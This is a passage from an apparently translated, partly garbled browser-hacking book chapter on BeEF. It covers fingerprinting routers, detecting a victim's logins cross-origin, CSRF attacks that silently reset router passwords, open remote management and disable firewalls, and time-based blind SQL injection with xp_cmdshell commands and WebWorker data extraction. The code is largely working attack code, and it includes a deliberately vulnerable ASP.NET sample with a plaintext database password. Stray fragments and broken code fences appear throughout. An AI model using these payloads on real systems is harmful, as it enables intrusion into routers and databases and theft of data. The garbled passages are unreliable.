-   虽然请求的资源本身不包含 JavaScript，但请注意，此方法易受反攻击。资源可能被修改为脚本，从而让攻击者控制被钩针的浏览器。当然，也可以通过使用 IFrame 的 sandbox 属性等进一步缓解。

 start figure 

**Figure 9-4:** 已识别 Drupal 以及 FileBrowser 插件。


 end figure 

-   这种技术同样可以用于指纹识别提供 Web 界面的设备。下面以 Sagemcom F@ST 2504 路由器 6（由 Sky 提供的宽带路由器）为例。即使你没有这款路由器，本节讨论的技术同样适用于类似设备。

-   与许多类似设备一样，该路由器可通过浏览器以 http://192.168.0.1:80 访问。路由器在身份验证前提供多个资源，包括 JavaScript 文件和图像。这正好适合指纹识别，你可以使用以下代码将其识别为 Sagemcom 路由器：

```
// 默认路由器 IP
var target = "192.168.0.1";

// 默认路由器图像
var fingerprint_data = new Array(
  new Array(
    "Sky Sagemcom Router",
    "80","http",true,
    "/sky_images/arrows.gif",8,16),
  new Array(
    "Sky Sagemcom Router",
    "80","http",true,
    "/sky_images/icons-broadband.jpg",43,53)
);

var dom = document.createElement('b');

for(var u=0; u < fingerprint_data.length; u++) {
   var img = new Image;
   img.id = u;
   img.src = fingerprint_data[u][2] + "://" + target
        + ":" + fingerprint_data[u][1] + fingerprint_data[u][4];
      
  // onload 事件触发，说明图像已被找到
  img.onload = function() {
    // 再次确认宽度和高度
    if(this.width == fingerprint_data[this.id][5] &&
     this.height == fingerprint_data[this.id][6]){
      console.log("检测到 " + fingerprint_data[this.id][4] + " -> " + fingerprint_data[this.id][0]);
      // 完成任务，从 DOM 中移除图像
      dom.removeChild(this); 
    }
  }
  // 将图像添加到 DOM
  dom.appendChild(img);
}
```

-   运行前面代码的结果可见 Figure 9-5，它确认了 Sagemcom 路由器可通过 http://192.168.0.1:80 访问。之所以可以确信，是因为两个默认图像均已成功识别。

 start figure 

**Figure 9-5:** 路由器指纹识别


 end figure 

在 2007 年，Gareth Heyes 创建了 jsLanScanner，7，它使用类似技术发现并指纹识别多个嵌入式设备。其指纹数据库相当准确，涵盖了约 200 种不同设备。

-   现在路由器已成功被发现并指纹识别，下一步通常是处理身份验证，这将在下一节中说明。

# 跨域身份验证检测

大多数实现登录功能的 Web 应用都有仅在身份验证后才可访问的资源，以及供未认证、匿名用户访问的独立资源。

常见的 Web 应用行为包括：当未认证用户请求已认证资源时，返回 403 或 404 HTTP 状态码；而已登录用户请求同一资源则返回 200 状态码。


-   另一种常见行为是在请求一个不存在且受身份验证保护的路径下的资源时，回复 `302` HTTP 重定向状态码。例如，假设你请求 `http://browserhacker.com/admin/non_existent`，其中 `/admin/` 路径下的所有资源都需要用户进行身份验证。如果你是未经身份验证的用户并请求 `/admin/non_existent`，Web 应用会返回 `302` 状态码，并将你重定向到登录页面 `/admin/login`。相反，如果你是已认证的用户并请求 `/admin/non_existent`，则会返回 `404` Not found 错误。

Mike Cardwell 分析了多个社交网络站点，检查它们是否以相同的方式使用 HTTP 状态码。他的分析结果显示，`8` 个 Twitter 站点类似于第二个例子，根据用户会话是否已认证，返回 `302` 或 `404` 状态码。

请注意，`<script>` 标签会在资源返回 `403`、`404` 或 `500` 状态码时触发 `onerror` 事件，而在返回 `200` 或 `302` 状态码时触发 `onload` 事件。此外，Twitter 要求认证才能访问 `/account/*` 路径下的资源。基于这两点信息，你可以可靠地判断钩子浏览器是否在其打开的标签页（或窗口）中已登录 Twitter，并且可以在跨源（cross-origin）方式下完成，而不会违反同源策略（SOP）。下面的代码片段即可实现此目的：

```
var script = document.createElement("script");
script.onload = function(){
  alert('not logged in')
};
script.onerror = function(){
  alert('logged in')
};
script.src = "https://twitter.com/account/non_existent";
var head = document.getElementsByTagName("head")[0];
head.appendChild(script);
```

如从 `Figure 9-6` 可以看出，如果钩子浏览器未登录 Twitter，请求一个不存在的资源（如 `/account`）时会返回 `302` 状态码，这会导致脚本触发 `onload` 事件。

 start figure 

**Figure 9-6:** 检测到受害者未登录 Twitter


 end figure 

如果钩子浏览器已登录 Twitter，如 `Figure 9-7` 所示，请求同一不存在的资源会返回 `404` 状态码，从而执行 `onerror` 事件。

 start figure 

**Figure 9-7:** 检测到受害者已登录 Twitter


 end figure 

监控资源加载时间是另一种跨源技术。如果在会话已认证与未认证之间存在资源加载时间差异，你可以推断出重要信息。利用这些信息，你可以判断浏览器是否已登录到某个应用。

Haroon Meer 和 Marco Slaviero 在 2007 年的 DEF CON 15 上介绍了此技术，使用带有自定义 `onload` 事件处理器的 `IFrames` 来监控 framed 资源的加载时间。加载时间差异越大，结果越准确。Web 应用中的许多交互行为可能会导致延迟。

一个典型例子是默认安装的 Drupal 6。如果你已登录并请求 `http://browserhacker.com/drupal/?q=admin`，内容长度为 `3,264` 字节。相反，如果你未登录并请求相同资源，你会收到 `403` HTTP 状态码，内容长度为 `1,374` 字节。

即使我们只谈论毫秒级的差异，较大的内容长度通常会导致加载时间更长。下面的代码片段可以执行此查询，但请注意，它需要根据你的需求和正在测试的应用进行修改：

```
var add_iframe;
var counter = 5;
var sum = 0;
/* 平均匹配时间。在此例中，对于
http://browserhacker.com/drupal/?q=admin 资源：
已登录的用户加载时间 > 210ms
未登录的用户加载时间 < 210ms
*/
var avg_to_match = 210;
function append(){
  if(counter > 0){
   var i = document.createElement("iframe");
   i.src = "http://browserhacker.com/drupal/?q=admin";
   var start = new Date().getTime();
   console.log('start:' + start);
   
   /* 自定义 onload 处理器以监控加载时间*/
   i.onload = function(){
    var end = new Date().getTime();
    console.log('end:' + end);
    var total = end - start;
    console.log('total:' + total);
    sum += total;
    counter--;
   }
   document.body.appendChild(i);
  }else{
   clearInterval(add_iframe);
   var avg = sum / 5;
   var logged_in = true;
   console.log("sum: " + sum + ", avg:" + avg);
   if(avg < 210){
    logged_in = false;
   }
   console.log("logged in Drupal 6: " + logged_in);
  }
}
add_iframe = setInterval(function(){append()},500);
```

继续以 Drupal 示例为例，`Figure 9-8` 和 `Figure 9-9` 展示了运行前面脚本的结果。请注意，sum 和平均时间有所不同。

 start figure 

**Figure 9-8:** 检测到受害者未登录 Drupal


 end figure start figure 

**Figure 9-9:** 检测到受害者已登录 Drupal


 end figure 

准确识别钩子浏览器是否已登录到某个 Web 应用，有助于更可靠地发起攻击。将此知识与未使用 XSRF 令牌保护的资源结合，你可能会在受害者的身份代理下执行各种操作。

# 利用跨站请求伪造（Cross-site Request Forgery）

跨站请求伪造漏洞通常被称为 CSRF 或 XSRF 漏洞。XSRF 攻击最早在 2001 年由 Peter Watkins 在 Full Disclosure 邮件列表上发起讨论时首次被提出。自此，XSRF 漏洞在安全社区中已广为人知并被理解。

## 理解跨站请求伪造

XSRF 攻击利用了 web 应用对用户 HTTP 请求的信任。当你已知用户已与应用进行身份验证时，此类攻击特别有用。如前一节所讨论的技术，将帮助你判断用户是否已登录。

让我们以一个需要管理员用户登录才能访问 `[`browservictim.com/admin/users`](http://browservictim.com/admin/users)` 资源的应用为例。如果攻击者控制了与已认证来源的不同源的浏览器，攻击者可能会利用该应用中的 XSRF 漏洞进行攻击。这意味着攻击者可以通过向脆弱的资源发送格式正确的请求，在用户已认证的情况下，代表用户执行操作。

攻击者可以伪造跨源 AJAX 请求该脆弱资源。由于浏览器会自动在请求中包含用户的 Cookie，这些请求看起来是合法的、已认证的请求。使用 JavaScript 动态创建并提交 HTML 表单，同样可以生成伪造请求。这些请求通常会被 Web 应用信任，因为它依赖于用户已登录以及 Cookie 随每个请求一起发送的事实。此类漏洞之所以可被利用，是因为 HTTP 请求可以重播（replay），而 HTTP 协议并不规定如何处理唯一请求。

考虑另一个场景：用户已登录到 Cisco c24e000 路由器的管理界面。如果该 Web 管理界面易受 XSRF 攻击，则每个请求都可以通过 knowing the required parameters 进行重播。攻击者因此可以 trick the user into executing the following code from another origin:


-   [使用 BeEF 执行函数](https://wiki.example.org/beef_execute_function) 的代码会在 `beef.execute(function() {` 代码块中运行。

1.  在代码块中，首先定义了变量 `gateway` 和 `passwd`，分别指向目标网关地址 `http://192.168.100.2/` 以及新密码 `new_password`。

2.  通过 `beef.dom.createIframeXsrfForm` 创建第一个隐藏的 iframe，向 `gateway + "apply.cgi"` 发送 **POST** 请求，隐藏表单中包含了多个字段，如 `submit_button`、`action`、`PasswdModify`、`http_enable`、`https_enable`、`remote_mgt_https`、`wait_time`、`need_reboot`、`http_passwd`、`http_passwdConfirm`、`_http_enable`、`_https_enable`、`web_wl_filter`、`remote_management`、`_remote_mgt_https`、`remote_upgrade`、`remote_ip_any`、`http_wanport`、`nf_alg_sip`、`ctf_disable`、`upnp_enable`、`upnp_config`、`upnp_internet_dis` 等，用于 **开启远程管理功能**，并将管理员密码改为 `new_password`。

3.  通过第二个 `beef.dom.createIframeXsrfForm` 创建另一个隐藏的 iframe，向同一 URL 发送 **POST** 请求，隐藏表单中包含了 `block_wan`、`block_loopback`、`multicast_pass`、`ipv6_multicast_pass`、`ident_pass`、`block_cookie`、`block_java`、`block_proxy`、`block_activex`、`wait_time`、`ipv6_filter`、`filter` 等字段，用于 **禁用防火墙** 以及 **关闭 Java/ActiveX 检查**。

4.  最后，使用 `beef.net.send` 发送 exploit 请求，目标是 `<%= @command_url %>`, 参数 `command_id`，并期待返回 `result=exploit attempted`。

5.  `cleanup` 函数用于在 15 秒后移除两个 iframe，代码如下：

```javascript
cleanup = function() {
    document.body.removeChild(cisco_c24e000_iframe1);
    document.body.removeChild(cisco_c24e000_iframe2);
}
setTimeout("cleanup()", 15000);
```

6.  整段代码表明，攻击者可以在用户浏览器中动态创建两个不可见的 iframe，每个 iframe 包含一个隐藏表单，从而 **在不通知用户的情况下** 完成对路由器配置的修改：开启远程管理、修改管理员密码、禁用防火墙以及关闭 Java/ActiveX 检查。

7.  这些更改会在后台 silently 完成，攻击者随后可以通过远程管理端口（如 31337）登录路由器，获得完整控制权。

8.  代码使用 BeEF 的 `dom.js` 核心 API `createIframeXsrfForm`，该方法会创建一个不可见的 iframe（宽度/高度 1px，visibility hidden），并在其内部生成一个 form，填充所有隐藏的 input 字段，然后提交表单。利用 HTML 表单而非 XMLHttpRequest 的方式更可靠，因为可以避免不同浏览器对 XMLHttpRequest 对象的实现差异。

9.  在 “攻击密码重置与 XSRF” 章节中，描述了路由器管理员密码的**无需旧密码**即可被重置的常见安全漏洞。John Carroll 发现 SuperHub 路由器几乎所有 UI 资源均易受 XSRF 攻击，且可直接重置管理员密码。

10. 因此，如果用户已在浏览器中完成身份验证，攻击者可以利用以下代码段在目标路由器的页面上执行三个请求：

    - 第一个请求通过 `beef.dom.createIframeXsrfForm` 向 `gateway + "goform/RgSecurity"` 发送 **POST**，隐藏字段包括 `NetgearPassword`、`NetgearPasswordReEnter`、`RestoreFactoryNo`，将管理员密码改为 `BeEF12345`。

    - 第二个请求向 `gateway + "goform/RgServices"` 发送 **POST**，隐藏字段 `cbPortScanDetection`，用于 **禁用防火墙**。

    - 第三个请求向 `gateway + "goform/RgVMRemoteManagementRes"` 发送 **POST**，隐藏字段 `NetgearVMRmEnable`、`NetgearVMRmPortNumber`，用于 **开启远程管理**，并将其监听端口设为 `31337`。

11. 这些请求会在用户浏览器中**静默完成**，若成功，攻击者即可使用新密码登录远程管理端口，继续对路由器进行操作，甚至锁定合法用户，延长持久化访问并阻碍防御者的响应。

12. 在 “使用 CSRF Token 进行防护” 章节中，指出可以通过在每个请求中加入 **伪随机令牌（anti‑XSRF token）** 来缓解 XSRF 漏洞。示例展示了一个普通的 HTML 表单以及在其中加入 anti‑XSRF token 后的表单：

```html
<form name="addUserToAdmins" action="/adduser" method="POST">
<input type="hidden" name="userId" value"1234">
<input type="hidden" name="isAdmin" value"true">
<input type="submit" value="Add to admin group" style="height: 60px; width: 150px; font-size:3em">
</form>
```

与同一表单加入 anti‑XSRF token 后的形式类似：


-   [使用交叉站点脚本绕过反 XSRF 令牌的方法]https://example.org
   反 XSRF 令牌旨在减轻跨站请求伪造（CSRF）攻击的成功率，但并不针对跨站脚本（XSS）攻击。如果目标 Web 应用使用反 XSRF 令牌，但你能够控制目标源（即钩子），则可以绕过此保护机制。如前所述，单个 XSS 漏洞可能让攻击者完全控制受影响的源。

   攻击者若能控制目标源，将从包含表单的页面中提取反 XSRF 令牌，并将其加入新的恶意表单中。由于使用了正确的令牌，攻击将成功。

# 跨域资源检测

在无法成功指纹化 Web 应用的情况下，仍然可以检测跨域资源。但此过程对攻击者而言耗时且费力。此类情况下，攻击者会通过有据可依的猜测发送跨域请求。

目标 Web 应用的结构未知，但可以合理推断其根目录所在路径，以及可能存在的登录功能及其预测的参数名称。

诸如 DirBuster（由 James Fisher 创建）等工具使用常见目录和文件列表来发现 Web 应用中隐藏的目录。虽然这些工具需要直接访问目标 Web 应用，但相同的列表也可用于通过不同的检测逻辑发现跨域资源。

XSRF 防护措施的副作用是降低跨域资源检测的可靠性。当实施完善的 XSRF 防护时，Web 应用的跨域响应内容变化极小，这不利于通过该方法识别资源。反 XSRF 令牌还可能阻止从钩点来源发起的某些 Web 应用攻击。在从浏览器跨域跳跃时，必须考虑 XSRF 防护措施以扩大攻击面。

前几章节介绍了如何利用 Iframe 实现持久化并进行社交工程攻击。同样的技术现在可以用于协助发现跨域资源。

## 检测跨域资源

当前钩定的源可能包含指向其他源的链接或参数，这些链接或参数也可能被钩定。这在可钩定的内部 Wiki 中尤为有用，因为它可能包含指向其他内部 Web 应用的链接。虽然外部钩定源产生结果的概率较低，但仍值得检查，因为过程相对简单。

以下代码可用于枚举当前钩定页面中所有同源和跨域的链接及表单操作：

```
// 发现页面中所有 <a> 和 <form> 元素的 href 或 action 属性，并判断资源是否同源
function getFormActions(doc){
  var formsarray = [];
  var forms = doc.getElementsByTagName("form");
  for (var i = 0; i < forms.length; i++){
    var action = forms[i].getAttribute('action');
    formsarray = formsarray.concat(action);
    // 模拟 <a> 元素：通过此方式可在同一方式中调用 isSameOrigin() 对 <a> 和 <form> 元素
    var a = doc.createElement('a');
    a.href = action;
    console.log("Discovered form action: " + action + ". SameOrigin: " + isSameOrigin(a));
  }
  return formsarray;
}

// 发现页面中所有 <a> 元素的 href 属性，并判断资源是否同源
function getLinks(doc){
  var linksarray = [];
  var links = doc.links;
  for(var i=0; i<links.length; i++) {
    var link = links[i];
    linksarray = linksarray.concat(link);
    console.log("Discovered link: " + link.href + ". SameOrigin: " + isSameOrigin(link));
  };
  return linksarray;
}

// 判断资源是否同源（检查协议、主机名和端口）
function isSameOrigin(url){
  var sameOrigin = false;
  if(url.hostname.toString() === location.hostname.toString() &&
    url.port === location.port &&
    url.protocol === location.protocol){
    sameOrigin = true;
  }
  return sameOrigin;
}

getLinks(document);
getFormActions(document);
```

上述代码通过 `getLinks()` 函数获取当前文档中所有 `<a>` 链接，并使用 `isSameOrigin()` 判断每个链接的资源是否为同源；同样，`getFormActions()` 函数枚举所有 `<form>` 元素的 `action` 属性，并通过创建临时 `<a>` 元素调用 `isSameOrigin()` 来判断其资源是否同源。由于 `isSameOrigin()` 只接受 `<a>` 元素，代码通过动态生成 `<a>` 元素来复用该函数。

Figure 9-10 展示了在 http://localhost/text.html 托管的测试页面上运行上述代码的结果，页面内容如下：

```
<html><body>
 <a href="http://www.beefproject.com">BeEF Project</a><br />
 <a href="http://ha.ckers.org/">ha.ckers.org </a><br />
 <a href="http://localhost:8080/login">Login</a><br />
 <a href="/demos/butcher/index.html">BeEF hook</a><br />
 <form action="http://browserhacker.com"></form>
 <form action="//browserhacker.com:9090/login"></form>
 <form action="/login"></form>
</body></html>
[ox
</think>


``` 
var xhr = new XMLHttpRequest();
xhr.open("GET", "/demos/butcher/index.html");
xhr.onreadystatechange = function () {
 if (xhr.readyState == 4) {
  try{
   // creates a new Document from the XHR response
   var doc = new DOMParser().parseFromString(
     xhr.responseText, "text/html"
    );
   getLinks(doc);
   getFormActions(doc);
  }catch(e){}
 }
}
xhr.send();
```

This 代码调用 `getLinks()` 和 `getFormActions()` 在从 XHR 响应中创建的新 `Document` 上，变量 `doc` 保存该文档。注意 `DOMParser.parseFromString()` 用于此目的。对于像 Chrome 和 Safari 这类不支持 `parseFromString()` 的浏览器，可以使用 Eli Grey 提供的 polyfill 来重写 `parseFromString()` 原型：

```
``` 
(function(DOMParser) {  
 "use strict";  
 var DOMParser_proto = DOMParser.prototype  
 , real_parseFromString = DOMParser_proto.parseFromString;

 // Firefox/Opera/IE 抛出错误，无法处理不支持的类型  
 try {  
  // WebKit 在不支持的类型上返回 null  
  if ((new DOMParser).parseFromString("", "text/html")) {  
   // text/html 解析是原生支持的  
   return;  
  }  
 } catch (ex) {}  

 DOMParser_proto.parseFromString = function(markup, type) {  
  if (/^\s*text\/html\s*(?:;|$)/i.test(type)) {  
   var doc = document.implementation.createHTMLDocument("")
   , doc_elt = doc.documentElement
   , first_elt;

  doc_elt.innerHTML = markup;
  first_elt = doc_elt.firstElementChild;

  if (doc_elt.childElementCount === 1
  && first_elt.localName.toLowerCase() === "html") {  
   doc.replaceChild(first_elt, doc_elt);  
  }  

  return doc;  
 } else {  
  return real_parseFromString.apply(this, arguments);  
 }  
};  
}(DOMParser));
```

Now armed with this code, you are able to enumerate both same and cross-origin resources on the current hooked page, and also on newly discovered same-origin resources. Such discovered information will be very handy when combined with attacks that are covered in the following sections.

# 跨域 Web 应用程序漏洞检测

显然，同源策略 (SOP) 限制了很多攻击类型。但我们知道，只要有决心，总会有绕过的方法。各种技术可以在不违反 SOP 的前提下跨域进行攻击。

这些技术在下一节中讨论。包括如何在不同来源的浏览器（即钩装的浏览器）中识别跨站脚本 (XSS) 和 SQL 注入漏洞。

## SQL 注入漏洞

SQL 注入（SQLi）漏洞产生于你能够修改 Web 应用向数据库发送的 SQL 语句时出现。我们不会对 SQL 注入进行过多的分析，但推荐两本经典资源：《数据库黑客手册》和贾斯汀·克拉克的《SQL 注入攻击与防御》。

### 常规 SQL 注入检测

SQL 注入攻击根据缺陷的性质可以分为多种类别。通常可以通过 HTTP 响应中返回的数据类型来区分。如果返回类似下面的 SQL 错误信息，则说明存在错误基于 SQLi：

```
You have an error in your SQL syntax; check the \
manual that corresponds to your MySQL server version \
for the right syntax to use near ''' at line 1
```

在某些情况下，Web 应用即使 SQL 语句本身包含错误，也不会返回任何错误信息。此类情况通常称为盲 SQLi，因为从数据库或应用层面没有任何错误返回（因此得名）。

在这种情况下，仍可以通过比较正常请求与恶意请求的 HTTP 响应差异来判断是否影响特定资源。这些差异主要有两种：一种是 **Content‑Length** 不同，导致返回的内容体发生变化；另一种是 **响应时间** 不同，例如正常响应需要 1 秒，而恶意请求则耗时更长。


-   [目前仅支持 MySQL、PostgreSQL 和 MSSQL，因为它们具有时间延迟的 SQL 语句。正如 Chema Alonso 所示，19 仍然可以通过复杂的查询诱导时间延迟。此外，还可以使用外带确认，因为 Oracle 支持函数来发起 HTTP 和 DNS 请求：

``` 
beef.execute(function() {

// time-delay in seconds
var delay = '<%= @delay %>';

// target host/port
var host = '<%= @host %>';
var port = '<%= @port %>';

// target URL to scan
var uri = '<%= @uri %>';

// URL's parameter to scan, in the form key=value
var param = '<%= @parameter %>';

/*some vectors that should handle most injections.
* additional nested parenthesis could be added 
* in case of nested joins. param and delay are 
* placeholders replaced later in create_vector()
*/
var vectors = [
 "param AND delay", "param' AND delay",
 "param) AND delay", "param AND delay --",
 "param' AND delay --", "param) AND delay --",
 "param AND delay AND 'rand'='rand",
 "param' AND delay AND 'rand'='rand",
 "param' AND delay AND ('rand'='rand",
 "param; delay --"
];

var db_types = ["mysql", "mssql", "postgresql"];
var final_vectors = [];

/* every DB has a different time-delay statement
* for Oracle/DB2 and other see Chema Alonso Heavy-queries research:
*/ http://technet.microsoft.com/en-us/library/cc512676.aspx
function create_vector(vector, db_type){
 var result = "";
 if(db_type == "mysql")
   result = vector.replace("param",param) 
             .replace("delay","SLEEP(" + delay + ")");
 if(db_type == "mssql")
    result = vector.replace("param",param) 
             .replace("delay","WAITFOR DELAY '0:0:" + delay + "'");
 if(db_type == "postgresql")
    result = vector.replace("param",param) 
             .replace("delay","PG_SLEEP(" + delay + ")");

 console.log("Vector before URL encoding: " + result);
 return encodeURI(result);
}

// replace param and delay placeholders for supported db types
function populate_global_vectors(){
 for(var i=0;i<db_types.length;i++){
    var db_type = db_types[i];
    for(var e=0;e<vectors.length;e++){
        final_vectors.push(create_vector(vectors[e], db_type));
    }
 }
}

var vector_index = 0;
function next_vector(){
 result = final_vectors[vector_index];
 vector_index++;
 return result;
}

var send_interval;
var successfulVector = "";
function sendRequests(){
 var vector = next_vector();
 var url = uri.replace(param, vector);
 beef.net.forge_request("http", "GET", host, port, url,
    null, null, null, delay + 2, 'script', true, null,
                                                 function(response){
    // if the XHR response is effectively delayed, stop the process
    // because a successfulVector injection has been found.
    if(response.duration >= delay * 1000){
        successfulVector = url;
        console.log("Response  delayed with vector [" + 
        successfulVector + "]");
        clearInterval(send_interval);
    }
 });
}

// create all vectors for the supported DB types
populate_global_vectors();

/* determine normal response time, and adjust 
* delay between requests accordingly
* (base response time + 500 ms */
var response_time;
beef.net.forge_request("http", "GET", host, port, uri,
null, null, null, delay + 2, 'script', true, null,function(response){
 response_time = response.duration;

 send_interval = setInterval(function(){
    sendRequests()},response_time + 500); //can be adjusted
 });
});
```

When the previous code is injected into a hooked browser, populate_global_vectors() is called and attack vectors are created according to the supported database types and the payloads listed in the vectors array. These payloads are not comprehensive, but should be enough for most attacks. You can of course add more of them, for example, closing more parentheses or using different boolean keywords, to cover situations where nested joins or very long and complex queries are performed.

The next step in your attack is sending a request without any attack vector, to monitor the normal response timing. This is important in order to adjust the time-delay for subsequent attack payloads, in case the target already takes several seconds to reply to normal requests. After the baseline response time has been determined, all the available attack vectors are sent with the sendRequests() function. Each XHR request is executed with a callback that checks for the response timing after the response arrives. If the response time is equal or bigger than the injected delay, it suggests the injection was successful and the time-based SQLi is confirmed. In Figure 9-11 and Figure 9-12, you can see what’s happening under the hood when the code snippet is injected in a browser hooked with BeEF.

 start figure 

**Figure 9-11:** Time delay of a successful SQLi attack


 end figure   start figure 

**Figure 9-12:** Logging of a successful SQLi attack


 end figure 

### Cross-origin Blind SQL Injection Exploitation

Now you are able to determine which cross-origin resource is vulnerable to SQL injection, and also potentially which database is used. Armed with this information, you can now look to execute operating system commands or extrude database data.

Executing operating system commands largely depends on whether the database has been misconfigured, in particular those settings related to the level of permissions and privileges assigned to the current database user. If the database is running MSSQL, for instance, you can use the xp_cmdshell() stored procedure to execute commands within the operating system, potentially taking it over. Bear in mind, though, that the application’s database user must have the sysadmin role in order to use this stored procedure. As of MSSQL version 2005, this feature is disabled by default, although it can be re-enabled by calling the sp_configure() stored procedure.20

You can use the following MSSQL statements to check whether these stored procedures can be executed. Of course, they need to be formatted in the appropriate HTTP request to be smuggled to the database:

```
EXEC sp_configure 'show advanced options',1;RECONFIGURE
EXEC master..xp_cmdshell('ping –n 10 localhost')
```

The first request is needed in order to re-enable the xp_cmdshell() stored procedure in case it’s disabled. The second request is the one that should create a response time delay if the stored procedure is (or was) successfully enabled, and the user has the sysadmin role. In this example, the vector is inducing a time-delay by using the standard ping utility and pinging localhost 10 times, which should take approximately 9 to 10 seconds to complete. If you notice the expected delay, you can carry on executing other operating system commands.

Regarding data extraction, the previous code snippets could be updated by adding support for a binary extraction algorithm. This would be similar to those proposed by Chris Anley in his “Advanced SQL injection” paper21 and implemented in Sqlmap. For instance, to determine if the first bit of the first byte of the current database name is either 0 or 1, the following vector could be used in MSSQL environments:

```
declare @s varchar(8000) select @s = db_name() if (ascii(substring \ 
(@s, 1, 1)) & (power(2, 0))) > 0 waitfor delay '0:0:5' 
```

If the response is delayed for 5 seconds, you can reliably determine the first bit is 1. The process would continue for the second bit of the first byte and so on, with the next vector being:

```
declare @s varchar(8000) select @s = db_name() if (ascii(substring \ 
(@s, 1, 1)) & (power(2, 1))) > 0 waitfor delay '0:0:5'
```


数据提取结合时间延迟在速度上显然不是最优的。你可能会发送数百甚至数千次请求；要获取一个 8 字符的词，需要 64 次请求。请记住，你不必按顺序发送请求，等待一个请求完成后再发送下一个。在这种情况下，XHR 的异步特性非常有用。你可以使用 WebWorkers 与类似线程的环境来加速数据获取过程。

请参考下面的故意存在漏洞的 ASP.NET 示例，它使用 MSSQL 2008，并在 book_id 参数上存在可以跨来源（cross-origin）利用的 SQL 注入漏洞。下面是 C# 服务器端代码：

```csharp
public partial class _Default : System.Web.UI.Page{
 // 获取 Web.config 中的 SQL Server 2008 连接详情
 protected SqlConnection dbConn = new SqlConnection(
  ConfigurationManager.ConnectionStrings["sqlserver"].ToString()
 );

 protected void Page_Load(object sender, EventArgs e){
  if(Request.QueryString["book_id"] != null){
     // SQL 查询易受 SQL 注入攻击
     string sql = "SELECT * FROM books WHERE id = " + 
       Request.QueryString["book_id"];

     SqlCommand cmd = new SqlCommand(sql, dbConn);
     dbConn.Open();
     
     // 遍历查询结果 
     SqlDataReader results = cmd.ExecuteReader();
     string response = "";
     while(results.Read()){
      response += "<b>Book name:</b> " + results["name"] +
       "<br><b>Book authors:</b> " + results["author"];
     }
    Response.Write(response);    
    results.Close();
    dbConn.Close();
  }
 }
}
```

正如每个 ASP.NET 应用都会使用的 Web.config 文件，其中包含数据库连接信息：

```xml
<add name="sqlserver"
 connectionString="server=localhost;
database=sql_InjEction_1234;uid=sa;password=Abcd-1234;"
 providerName="System.Data.SqlClient"/>
</connectionStrings>
```

根据 Microsoft Developer Network 的说明，以及本章前面简要介绍的内容，如果在同一 MSSQL 服务器上指定多个 WAITFOR 语句，它们会在独立的线程中执行。除非服务器因高负载出现线程不足的情况，否则来自不同 HTTP 请求的多个 WAITFOR 语句都会按预期执行。

并不是所有数据库都如此行为。看起来 MSSQL 是唯一能可靠支持并行时间延迟的数据库。Sqlmap 完全在处理基于时间的盲注入时禁用多线程，原因正是如此。然而，在 MSSQL 环境中并行化基于时间的盲注入数据提取是可行的，后面章节会进一步说明。

下面的代码用于从该脆弱的 ASP.NET 应用中获取当前使用的数据库名称。代码包含两个部分：WebWorker 执行的代码以及 WebWorker 控制器。每个 WebWorker 执行以下代码：

```javascript
var uri, port, path, payload;
var index, seconds, position;

/* 从实例化 WebWorker 的控制器传入的配置 */
onmessage = function (e) {
 uri = e.data['uri'];
 port = e.data['port'];
 path = e.data['path'];
 payload = e.data['payload'];

 index = e.data['index'];
 seconds = e.data['seconds'];
 position = e.data['position'];

 retrieveChar(index, seconds, position);
};

function retrieveChar(index, seconds, position){
 var lowerbound = 1;
 var upperbound = 127;
 var index;
 var isLastReqSleep = false;
 var reqNumber = 0;
 // 如果所有请求都不延迟，则说明我们在查询超出范围的位置。
 var stringEndReached = true;

 function doRequest(index, seconds, position){

  if(lowerbound <= upperbound){
   reqNumber++;
   index = Math.floor((lowerbound + upperbound) / 2);
   var enc_payload = encodeURI(payload + position + ",1))>" + index +
       ") WAITFOR DELAY '0:0:" + seconds + "'--");
   // payload 例如：IF(UNICODE(SUBSTRING((SELECT \  
   // ISNULL(CAST(DB_NAME() AS NVARCHAR(4000)),CHAR(32))),
   var xhr = new XMLHttpRequest();
   var started = new Date().getTime();
   xhr.open("GET", uri + ":" + port + path + enc_payload, false);
   xhr.onreadystatechange=function(){
   if(xhr.readyState == 4){
    var finished = new Date().getTime();
    var respTime = (finished - started)/1000;

    /* 二元推断。通过 7 次请求我们可以确定字符的十进制表示值。如果请求的延迟不足 N '秒'，则说明字符的十进制表示（比如 115）不大于 
     'index' 127：IF(115>127) WAITFOR。以此类推，改变 'index' 为 63 继续。
    */
    if(respTime >= seconds){
      lowerbound = index + 1;
      if(reqNumber == 7) isLastReqSleep = true;
      stringEndReached = false;
    }else{
      upperbound = index - 1;
    }
    /* 递归调用 doRequest() */
    doRequest(index, seconds, position);
 }}
 xhr.send();

 }else{
  if(isLastReqSleep){
   index++;
  }
  /* 向 WebWorker 控制器发送已获取字符的信息
   如果 stringEndReached==true 表示我们在查询越界位置，且已找到要提取的数据的末尾 */
  postMessage(
   {'position':position,'char':index,'end':stringEndReached}
  );
  self.close(); //关闭 worker
  return index;
 }
}

// 启动请求发送
doRequest(index, seconds, position);
```

该代码使用二元推断法获取指定位置字符的十进制表示值。正如你所知，ASCII 字符的取值范围是 1（SOH）到 127（DEL），涵盖小写和大写字母、数字以及符号。通过二元推断，你可以在七次请求（七次 HTTP 请求）内检索字符串（这里是数据库名）的每一个字符。

在加入 console.log() 后，下面是查询数据库名第一个字符（本例中为 s）时的输出示例：

```
Response delayed. Char is > 64
Response delayed. Char is > 96
Response delayed. Char is > 112
Response not delayed. Char is < 120
Response not delayed. Char is < 116
Response delayed. Char is > 114
Response not delayed. Char is == 115 -> s
```

第一个跨来源 HTTP 请求的 URL 如下，用于获取数据库名的第一个字符：

```
http://172.16.37.149:8080/?book_id=1%20IF(UNICODE(SUBSTRING( 
(SELECT%20ISNULL(CAST(DB_NAME()%20AS%20NVARCHAR(4000)), 
CHAR(32))),1,1))%3E64)%20WAITFOR%20DELAY%20%270:0:2%27--
```

从前面 console.log() 的输出可知，响应会被延迟，因为 115 > 64。过程会持续进行，直到 lowerbound <= upperbound，即不再需要迭代，因为 115 < 116 且 115 > 114，最终字符为 115。WebWorker 完成后会通过 postMessage() 向父控制器通信结果：

```
postMessage({'position':position,'char':index,'end':stringEndReached});
```

每个 WebWorker 负责在指定位置检索单个字符。启动 worker 并验证结果的任务由以下控制器代码完成：


if(!!window.Worker){

// WebWorker code location
var wwloc = "http://browserhacker.com/time-based-sqli/worker.js";
// to init WebWorker
var uri = "http://172.16.37.149";
var port = "8080";
var path = "/?book_id=1";
var payload = " IF(UNICODE(SUBSTRING((SELECT ISNULL(CAST(DB_NAME()" +
 " AS NVARCHAR(4000)),CHAR(32))),";
var timeDelay = 2; // seconds to delay the response
var position = 1;
// Array holding the retrieved chars
var dbname = [];
